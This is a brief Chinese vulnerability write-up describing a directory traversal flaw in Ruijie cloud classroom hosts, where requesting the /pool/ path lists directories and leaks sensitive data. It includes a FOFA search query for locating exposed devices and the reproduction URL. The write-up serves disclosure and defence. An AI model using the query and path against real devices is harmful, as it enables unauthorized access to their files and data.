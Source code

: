 # 锐捷云课堂主机 目录遍历漏洞

## 漏洞描述

锐捷云课堂主机存在目录遍历漏洞，通过访问get请求/pool/，即可读取目录.导致敏感信息泄露.

## 漏洞影响

> [!NOTE]
>
> 锐捷云课堂

## FOFA

> [!NOTE]
>
> title="Ruijie" && "云课堂主机"

## 漏洞复现

访问 http://xxx.xxx.xxx.xxx/pool 造成目录遍历

![](http://wikioss.peiqi.tech/vuln/ruijie-24.png)

